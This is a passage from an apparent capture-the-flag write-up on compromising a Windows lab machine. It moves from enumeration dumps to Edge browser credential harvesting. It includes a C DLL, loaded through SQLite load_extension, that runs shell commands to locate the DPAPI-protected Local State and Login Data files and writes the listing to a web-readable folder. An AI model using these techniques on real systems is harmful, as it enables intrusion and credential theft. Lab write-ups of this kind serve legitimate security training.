Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\SpacePort\SpaceManagerTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\spaceman.exe /Work
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Speech\HeadsetButtonPress
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\speech_onecore\common\SpeechRuntime.exe StartedFromTask
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Storage Tiers Management\Storage Tiers Management Initialization
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          COM handler
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Storage Tiers Management\Storage Tiers Optimization
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\defrag.exe -c -h -g -# -m 8 -i 13500
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\TextServicesFramework\MsCtfMonitor
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:26 PM
Task To Run:                          COM handler
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Time Synchronization\ForceSynchronizeTime
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        4/15/2024 9:27:19 PM
Task To Run:                          COM handler
Run As User:                          LOCAL SERVICE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Time Synchronization\SynchronizeTime
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\sc.exe start w32time task_started
Run As User:                          LOCAL SERVICE
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Time Zone\SynchronizeTimeZone
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          %windir%\system32\tzsync.exe 
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 01:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\UPnP\UPnPHostConfig
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          sc.exe config upnphost start= auto
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:39:30 PM
Task To Run:                          C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25100.9008-0\MpCmdRun.exe -IdleTask -TaskName WdCacheMaintenance
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Defender\Windows Defender Cleanup
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:19 PM
Task To Run:                          C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25100.9008-0\MpCmdRun.exe -IdleTask -TaskName WdCleanup
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan
Next Run Time:                        10/3/2026 2:18:16 AM
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25100.9008-0\MpCmdRun.exe Scan -ScheduleJob -ScanTrigger 55 -IdleScheduledJob
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Windows Defender\Windows Defender Verification
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        10/2/2026 10:29:19 PM
Task To Run:                          C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25100.9008-0\MpCmdRun.exe -IdleTask -TaskName WdVerification
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Error Reporting\QueueReporting
Next Run Time:                        10/3/2026 12:52:28 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:32:17 PM
Task To Run:                          %windir%\system32\wermgr.exe -upload
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Error Reporting\QueueReporting
Next Run Time:                        10/3/2026 1:03:05 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:32:17 PM
Task To Run:                          %windir%\system32\wermgr.exe -upload
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Error Reporting\QueueReporting
Next Run Time:                        10/3/2026 12:57:48 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:32:17 PM
Task To Run:                          %windir%\system32\wermgr.exe -upload
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Error Reporting\QueueReporting
Next Run Time:                        10/3/2026 12:59:06 AM
Status:                               Ready
Last Run Time:                        10/2/2026 10:32:17 PM
Task To Run:                          %windir%\system32\wermgr.exe -upload
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 04:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\Windows Filtering Platform\BfeOnServiceStartTypeChange
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %windir%\system32\rundll32.exe bfe.dll,BfeOnServiceStartTypeChange
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Windows Media Sharing\UpdateLibrary
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          "%ProgramFiles%\Windows Media Player\wmpnscfg.exe" 
Run As User:                          Authenticated Users
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\WindowsColorSystem\Calibration Loader
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:26 PM
Task To Run:                          COM handler
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\WindowsColorSystem\Calibration Loader
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:26 PM
Task To Run:                          COM handler
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\WindowsUpdate\Scheduled Start
Next Run Time:                        10/3/2026 10:28:24 PM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          C:\Windows\system32\sc.exe start wuauserv
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        Disabled
TaskName:                             \Microsoft\Windows\WindowsUpdate\Scheduled Start
Next Run Time:                        10/3/2026 10:27:57 PM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          C:\Windows\system32\sc.exe start wuauserv
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\WindowsUpdate\Scheduled Start
Next Run Time:                        10/3/2026 10:28:19 PM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          C:\Windows\system32\sc.exe start wuauserv
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\WindowsUpdate\Scheduled Start
Next Run Time:                        10/3/2026 10:27:57 PM
Status:                               Ready
Last Run Time:                        10/2/2026 10:35:17 PM
Task To Run:                          C:\Windows\system32\sc.exe start wuauserv
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 72:00:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Wininet\CacheTask
Next Run Time:                        N/A
Status:                               Ready
Last Run Time:                        12/9/2025 2:20:25 PM
Task To Run:                          COM handler
Run As User:                          Users
Stop Task If Runs X Hours and X Mins: Disabled
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Workplace Join\Automatic-Device-Join
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %SystemRoot%\System32\dsregcmd.exe $(Arg0) $(Arg1) $(Arg2)
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:05:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Workplace Join\Automatic-Device-Join
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %SystemRoot%\System32\dsregcmd.exe $(Arg0) $(Arg1) $(Arg2)
Run As User:                          SYSTEM
Stop Task If Runs X Hours and X Mins: 00:05:00
Repeat: Stop If Still Running:        N/A
TaskName:                             \Microsoft\Windows\Workplace Join\Recovery-Check
Next Run Time:                        N/A
Status:                               Disabled
Last Run Time:                        11/30/1999 12:00:00 AM
Task To Run:                          %SystemRoot%\System32\dsregcmd.exe /checkrecovery
Run As User:                          INTERACTIVE
Stop Task If Runs X Hours and X Mins: 02:00:00
Repeat: Stop If Still Running:        N/A
 
========== SERVICES ========== 
 
========== NETWORK ========== 

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Eloquia
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : .htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-0B-79
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::365b:215d:b96c:1427(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::110f:37b4:de42:197f%18(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.129.244.81(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Friday, October 2, 2026 10:29:18 PM
   Lease Expires . . . . . . . . . . : Saturday, October 3, 2026 12:59:18 AM
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:a09%18
                                       10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 419450966
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2D-AF-B5-AD-08-00-27-31-DA-CE
   DNS Servers . . . . . . . . . . . : 127.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       876
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       484
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1088
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1436
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       2204
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       620
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       628
  TCP    10.129.244.81:80       10.10.17.133:35690     ESTABLISHED     4
  TCP    10.129.244.81:80       10.10.17.133:35722     ESTABLISHED     4
  TCP    10.129.244.81:80       10.10.17.133:35738     ESTABLISHED     4
  TCP    10.129.244.81:80       10.10.17.133:35758     ESTABLISHED     4
  TCP    10.129.244.81:139      0.0.0.0:0              LISTENING       4
  TCP    10.129.244.81:58809    10.129.244.81:80       TIME_WAIT       0
  TCP    10.129.244.81:58819    10.129.244.81:80       TIME_WAIT       0
  TCP    127.0.0.1:8000         0.0.0.0:0              LISTENING       5140
  TCP    127.0.0.1:8000         127.0.0.1:58810        TIME_WAIT       0
  TCP    127.0.0.1:8000         127.0.0.1:58827        ESTABLISHED     5140
  TCP    127.0.0.1:8000         127.0.0.1:58828        ESTABLISHED     5140
  TCP    127.0.0.1:8080         0.0.0.0:0              LISTENING       4852
  TCP    127.0.0.1:49672        127.0.0.1:49673        ESTABLISHED     5236
  TCP    127.0.0.1:49673        127.0.0.1:49672        ESTABLISHED     5236
  TCP    127.0.0.1:49674        127.0.0.1:49675        ESTABLISHED     5208
  TCP    127.0.0.1:49675        127.0.0.1:49674        ESTABLISHED     5208
  TCP    127.0.0.1:49676        127.0.0.1:49677        ESTABLISHED     5228
  TCP    127.0.0.1:49677        127.0.0.1:49676        ESTABLISHED     5228
  TCP    127.0.0.1:49678        127.0.0.1:49679        ESTABLISHED     5284
  TCP    127.0.0.1:49679        127.0.0.1:49678        ESTABLISHED     5284
  TCP    127.0.0.1:49682        127.0.0.1:49683        ESTABLISHED     5252
  TCP    127.0.0.1:49683        127.0.0.1:49682        ESTABLISHED     5252
  TCP    127.0.0.1:49684        127.0.0.1:49685        ESTABLISHED     5244
  TCP    127.0.0.1:49685        127.0.0.1:49684        ESTABLISHED     5244
  TCP    127.0.0.1:49686        127.0.0.1:49687        ESTABLISHED     5260
  TCP    127.0.0.1:49687        127.0.0.1:49686        ESTABLISHED     5260
  TCP    127.0.0.1:49688        127.0.0.1:49689        ESTABLISHED     4852
  TCP    127.0.0.1:49689        127.0.0.1:49688        ESTABLISHED     4852
  TCP    127.0.0.1:50347        127.0.0.1:50348        ESTABLISHED     5076
  TCP    127.0.0.1:50348        127.0.0.1:50347        ESTABLISHED     5076
  TCP    127.0.0.1:58827        127.0.0.1:8000         ESTABLISHED     2416
  TCP    127.0.0.1:58828        127.0.0.1:8000         ESTABLISHED     2416
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       876
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:5985              [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49664             [::]:0                 LISTENING       484
  TCP    [::]:49665             [::]:0                 LISTENING       1088
  TCP    [::]:49666             [::]:0                 LISTENING       1436
  TCP    [::]:49667             [::]:0                 LISTENING       2204
  TCP    [::]:49668             [::]:0                 LISTENING       620
  TCP    [::]:49669             [::]:0                 LISTENING       628
  TCP    [::1]:58811            [::1]:58822            TIME_WAIT       0
  TCP    [::1]:58812            [::1]:58811            TIME_WAIT       0
  TCP    [::1]:58813            [::1]:58811            TIME_WAIT       0
  UDP    0.0.0.0:123            *:*                                    2512
  UDP    0.0.0.0:500            *:*                                    2280
  UDP    0.0.0.0:4500           *:*                                    2280
  UDP    0.0.0.0:5353           *:*                                    1592
  UDP    0.0.0.0:5355           *:*                                    1592
  UDP    10.129.244.81:137      *:*                                    4
  UDP    10.129.244.81:138      *:*                                    4
  UDP    127.0.0.1:53346        *:*                                    2536
  UDP    [::]:123               *:*                                    2512
  UDP    [::]:500               *:*                                    2280
  UDP    [::]:4500              *:*                                    2280
  UDP    [::]:5353              *:*                                    1592
  UDP    [::]:5355              *:*                                    1592
```


### Key Findings Buried in the Noise

The vast majority of that `schtasks` output is Windows' own **default, built-in scheduled tasks** (NGEN compilation, Workplace Join, Disk Cleanup, Device Census, ExploitGuard policy refresh, and so on) — every one of these ships out-of-the-box on a stock Server 2019 install and is safe to mentally filter out. What actually matters is everything that is *not* part of that default set:

| Finding | Where in the dump | Why it matters |
|---|---|---|
| **`Administrator` is the only member of the `Administrators` local group** | `USERS` section | Confirms there is no secondary admin-equivalent local account to target; `Administrator` is the terminal privilege-escalation goal. |
| **`Olivia.KAT` is a member of `Remote Management Users`** | `USERS` section | This is the single most important line in the entire dump. It tells us that if we ever obtain `Olivia.KAT`'s credentials, we get **WinRM access** (port 5985, confirmed open back in Phase 1) — i.e. an actual interactive shell, finally escaping the slow DLL/curl pseudo-shell loop. |
| **`C:\Users\web\Desktop\user.txt`** | `USER PROFILES` section | Confirms the location we already used to grab the user flag. |
| **`Qooqle IPS Software`** directory under `C:\Program Files\` | `PROGRAM FILES` section | A custom-built, non-default piece of software — "IPS" strongly suggests "Intrusion Prevention/Protection System," i.e. some kind of homegrown security monitoring tool. Custom security tooling that nobody has pen-tested is a classic source of privilege-escalation bugs; this directory name is the first breadcrumb pointing at the `Failure2Ban` service we exploit in Phase 7. |
| **`Automation Scripts`** directory under `C:\Program Files\` | `PROGRAM FILES` section | Confirmed by the Scheduled Tasks section to contain `eloquia.htb-runserver.bat`, `qooqle.htb-runserver.bat`, and `seleniumSimulator.py` — this is how both web applications are actually kept running (via Scheduled Tasks rather than a "real" Windows Service), and the Selenium script is almost certainly the "admin bot" automation that reviews reported articles, which is exactly the mechanism our Phase 2 CSRF exploit relied on. |
| **Task: `\clear eloquia.htb(sql-explorer) query logs`**, runs as `web`, invoking `manage.py clear_explorer_logs` | `SCHEDULED TASKS` section | Confirms SQL Explorer's query history is being periodically purged — explains why our exploitation queries don't pile up visibly, and confirms `manage.py` (Django's management command runner) is present and being invoked directly, which is useful knowledge if we ever wanted alternate code-execution primitives. |
| **Task: `\seleniumSimulator`**, runs as `web`, invoking `seleniumSimulator.py` | `SCHEDULED TASKS` section | This is almost certainly the "admin bot" — a headless Selenium browser automation script that periodically logs in and browses the site (including reviewing reported content), which is the real-world mechanism that made our Phase 2 CSRF payload actually get *rendered* by something with an authenticated admin session. |
| **Tasks: `\Start eloquia.htb` / `\Start qooqle.htb`**, Status `Running`, as `web` | `SCHEDULED TASKS` section | Confirms both Django dev-servers are launched and kept alive via Scheduled Task rather than IIS directly hosting them (IIS is almost certainly acting as a reverse proxy in front of the Django `runserver` processes), which lines up with the `127.0.0.1:8000` and other high, non-standard loopback ports visible in the `netstat` output below. |
| **`TCP 0.0.0.0:5985 LISTENING`** | `NETWORK` section | Re-confirms WinRM is listening and accessible, reinforcing the `Olivia.KAT` → `Remote Management Users` finding above as our clear next objective. |
| **`TCP 127.0.0.1:8000` / `127.0.0.1:8080` LISTENING** | `NETWORK` section | Loopback-only services — likely the real Django `runserver` process(es) and possibly SQL Explorer's own backing worker — confirming these are only reachable through IIS's reverse-proxy layer, not directly from the network. |

The clearest actionable conclusion from this entire enumeration pass: **we don't need a local privilege escalation on the `web` account specifically — we need to find `Olivia.KAT`'s password**, because that account already has the group membership required for a full interactive shell via WinRM. That reframes the goal of Phase 5 precisely: go hunting for anything that could contain her credentials, starting with the browser-profile breadcrumb the enumeration script was specifically built to look for.

---

# Phase 5: Harvesting Credentials from Edge Browser Data (DPAPI)

## Understanding Windows DPAPI & Chromium Credential Storage

Before enumerating further, it helps to understand *why* a browser's saved-password database is even a realistic target on a service account like `web`, and what makes decrypting it non-trivial.

> **Concept note — DPAPI (Data Protection API):** Windows provides a built-in OS service called **DPAPI** that applications use to encrypt secrets (saved passwords, Wi-Fi keys, certificates, etc.) "for free," without the application needing to manage its own encryption keys. When an application calls `CryptProtectData()`, Windows derives an encryption key from the **logged-in user's own credentials/master key material** (stored under their profile) and uses it to encrypt the blob. The crucial security property — and the reason this is usually considered reasonably safe — is that **only a process running as that same user (or an entity with access to that user's DPAPI master key) can call `CryptUnprotectData()` to decrypt it back**. In other words, DPAPI ties the secret to the Windows account, not to a password the attacker needs to separately know. **This is exactly why it's dangerous once we already have code execution as the `web` account**: we don't need to "crack" or "decrypt" anything cryptographically from scratch — we just need to *ask Windows itself* to decrypt it for us, because our code is already running as the very account the secret is protected for.
>
> **Chromium-based browsers (Edge, Chrome) layer an additional, lighter encryption step on top of DPAPI**: a random AES key (the "app bound" / "os_crypt" key) is generated once, encrypted with DPAPI, and stored base64-encoded inside a JSON file called `Local State`. Each individual saved password in the `Login Data` SQLite database is then encrypted with *that* AES key using AES-256-GCM. So the full decryption chain is: **DPAPI-unprotect the master key found in `Local State`** → **use that key to AES-GCM-decrypt each password blob in the `Login Data` SQLite database**.

## Enumerating the Edge Browser Profile

Applying the same DLL-based enumeration technique from Phase 4, but now specifically targeting Microsoft Edge's profile directory under the `web` account — exactly the browser folder the general-purpose `enum.c` script flagged as worth a closer look.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

__declspec(dllexport) int sqlite3_edgeenum_init(void *db, char **err, void *api) {
    system("echo ===== EDGE STRUCTURE ===== > C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\\Default\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");

    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt");
    system("echo ===== IMPORTANT FILES ===== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt");
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\\Local State\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\\Default\\Login Data\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    system("dir \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\\Default\\Login Data For Account\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");

    system("echo. >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt");
    system("echo ===== FULL RECURSIVE (filtered) ===== >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt");
    system("dir /s /b \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\\*Local State*\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");
    system("dir /s /b \"C:\\Users\\web\\AppData\\Local\\Microsoft\\Edge\\User Data\\*Login Data*\" >> C:\\Web\\Eloquia\\static\\assets\\images\\blog\\edge.txt 2>&1");

    return 0;
}
```

This script is purpose-built around the exact two files the DPAPI decryption chain described above depends on: it first lists the general directory structure (`AppData\Local\Microsoft\Edge\User Data` and the `Default` profile folder), then specifically confirms the existence of `Local State` (the DPAPI-protected master key file) and `Login Data` / `Login Data For Account` (the SQLite databases holding encrypted saved logins), and finally does a recursive, filtered `dir /s /b` search as a safety net in case either file exists somewhere other than the expected default profile path.

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ x86_64-w64-mingw32-gcc -shared -o edge_enum.dll edge_enum.c
```

```sql
SELECT load_extension('C:\Web\Eloquia\static\assets\images\blog\edge_enum.dll', 'sqlite3_edgeenum_init');
```

Fetching the result (again, preserved here in full — most of it is the routine directory listing of Edge's internal cache/database folder structure, but it conclusively proves both target files exist and are readable):

```shell
┌──(kuroshiro㉿a1sberg)-[~/HTB/Eloquia]
└─$ curl http://eloquia.htb/static/assets/images/blog/edge.txt
└─$ curl http://eloquia.htb/static/assets/images/blog/edge.txt

===== EDGE STRUCTURE ===== 
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft

04/20/2025  08:24 PM    <DIR>          .
04/20/2025  08:24 PM    <DIR>          ..
04/20/2024  12:10 PM    <DIR>          Edge
04/19/2024  05:53 PM    <DIR>          Feeds
04/19/2024  05:53 PM    <DIR>          input
09/15/2018  12:19 AM    <DIR>          InputPersonalization
10/21/2025  02:23 PM    <DIR>          Internet Explorer
04/19/2024  05:53 PM    <DIR>          Media Player
04/20/2025  08:24 PM    <DIR>          PenWorkspace
04/19/2024  05:53 PM    <DIR>          PlayReady
04/20/2024  12:11 PM    <DIR>          TokenBroker
04/20/2024  12:10 PM    <DIR>          Vault
04/20/2025  12:29 PM    <DIR>          Windows
09/15/2018  12:19 AM    <DIR>          Windows Sidebar
               0 File(s)              0 bytes
              14 Dir(s)   5,459,861,504 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft\Edge

04/20/2024  12:10 PM    <DIR>          .
04/20/2024  12:10 PM    <DIR>          ..
10/22/2025  11:54 AM    <DIR>          User Data
               0 File(s)              0 bytes
               3 Dir(s)   5,459,861,504 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft\Edge\User Data

10/22/2025  11:54 AM    <DIR>          .
10/22/2025  11:54 AM    <DIR>          ..
04/20/2024  12:11 PM    <DIR>          Autofill
04/20/2024  12:11 PM    <DIR>          AutoLaunchProtocolsComponent
10/21/2025  02:31 PM    <DIR>          BrowserMetrics
10/21/2025  02:32 PM         4,194,304 BrowserMetrics-spare.pma
04/20/2024  12:11 PM    <DIR>          CertificateRevocation
04/20/2024  12:10 PM    <DIR>          Crashpad
10/22/2025  11:54 AM    <DIR>          Default
04/20/2024  12:11 PM    <DIR>          EADPData Component
04/20/2024  12:11 PM    <DIR>          Edge Designer
04/20/2024  12:11 PM    <DIR>          Edge Notifications
04/20/2024  12:11 PM    <DIR>          Edge Shopping
04/20/2024  12:11 PM    <DIR>          Edge Tipping
04/20/2024  12:11 PM    <DIR>          Edge Travel
04/20/2024  12:11 PM    <DIR>          Edge Wallet
04/20/2024  12:11 PM    <DIR>          EdgeOnnxRuntimeDirectML
04/20/2024  12:11 PM                 0 First Run
04/20/2024  12:11 PM                 0 FirstLaunchAfterInstallation
04/20/2024  12:11 PM    <DIR>          FirstPartySetsPreloaded
10/21/2025  02:30 PM            49,152 first_party_sets.db
10/21/2025  02:30 PM                 0 first_party_sets.db-journal
04/20/2024  12:11 PM             4,096 Functional SAN Data
10/21/2025  02:31 PM            61,832 Functional SAN Data-wal
04/20/2024  12:11 PM    <DIR>          GraphiteDawnCache
04/20/2024  12:11 PM    <DIR>          GrShaderCache
04/20/2024  12:11 PM    <DIR>          hyphen-data
10/21/2025  02:30 PM               120 Last Browser
10/21/2025  02:30 PM                13 Last Version
10/22/2025  11:54 AM            57,640 Local State
04/20/2024  12:11 PM    <DIR>          Nurturing
04/20/2024  12:11 PM    <DIR>          OriginTrials
04/20/2024  12:11 PM    <DIR>          PKIMetadata
04/20/2024  12:11 PM    <DIR>          RecoveryImproved
04/20/2024  12:11 PM    <DIR>          Safe Browsing
04/20/2024  12:11 PM    <DIR>          SafetyTips
04/20/2024  12:11 PM    <DIR>          ShaderCache
04/20/2024  12:11 PM    <DIR>          SmartScreen
04/20/2024  12:11 PM    <DIR>          Speech Recognition
04/20/2024  12:11 PM    <DIR>          Subresource Filter
04/20/2024  12:11 PM    <DIR>          Trust Protection Lists
04/20/2024  12:11 PM    <DIR>          TrustTokenKeyCommitments
04/20/2024  12:11 PM    <DIR>          Typosquatting
10/22/2025  11:54 AM                85 Variations
04/20/2024  12:11 PM    <DIR>          Web Notifications Deny List
04/20/2024  12:11 PM    <DIR>          WidevineCdm
04/20/2024  12:11 PM    <DIR>          WorkspacesNavigationComponent
04/20/2024  12:11 PM    <DIR>          ZxcvbnData
              11 File(s)      4,367,242 bytes
              37 Dir(s)   5,459,857,408 bytes free
 Volume in drive C has no label.
 Volume Serial Number is 22C6-32BB

 Directory of C:\Users\web\AppData\Local\Microsoft\Edge\User Data\Default

10/22/2025  11:54 AM    <DIR>          .
10/22/2025  11:54 AM    <DIR>          ..
04/20/2024  12:11 PM            14,722 arbitration_service_config.json
04/20/2024  12:11 PM    <DIR>          Asset Store
04/20/2024  12:11 PM    <DIR>          AssistanceHome
10/21/2025  02:30 PM    <DIR>          AutofillStrikeDatabase
10/21/2025  02:30 PM    <DIR>          blob_storage
10/21/2025  02:30 PM    <DIR>          BudgetDatabase
04/20/2024  12:11 PM    <DIR>          Cache
04/20/2024  12:11 PM    <DIR>          Code Cache
